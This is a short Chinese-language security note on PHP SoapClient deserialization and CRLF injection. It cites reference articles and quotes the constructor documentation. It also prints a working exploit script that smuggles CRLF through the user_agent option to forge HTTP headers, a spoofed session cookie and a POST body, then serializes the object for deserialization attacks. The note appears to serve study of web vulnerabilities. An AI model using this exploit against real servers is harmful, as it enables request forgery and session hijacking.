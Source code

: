 # Soap和CRLF攻击

## 参考文章

- https://www.anquanke.com/post/id/153065#h2-5
- https://xz.aliyun.com/t/2148#toc-0
- https://segmentfault.com/a/1190000003791120
- http://blog.securelayer7.net/owasp-top-10-penetration-testing-soap-application-mitigation/

## 简介

### 函数构造

```php
public SoapClient::SoapClient ( mixed $wsdl [, array $options ] )
```

>  **options**
>
> An array of options. If working in WSDL mode, this parameter is optional. If working in non-WSDL mode, the *location* and *uri* options must be set, where *location* is the URL of the SOAP server to send the **request to**, and *uri* is the target namespace of the SOAP service.

## CRLF攻击

利用条件

- 需要进行反序列化
- 调用一个方法，且该方法不存在。以此激活__call()

### 利用范围

- (PHP 5, PHP 7)

### 测试代买

exp脚本如下

```php
<?php
$target = "http://xxx.xxx.xxx.xxx:5555/";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa);
echo urlencode($aaa);
$aa=unserialize($aaa);
$aa->test();
```

![](../images/19-7-13_PHP_Soap和CRLF攻击_CRLF攻击_1.png)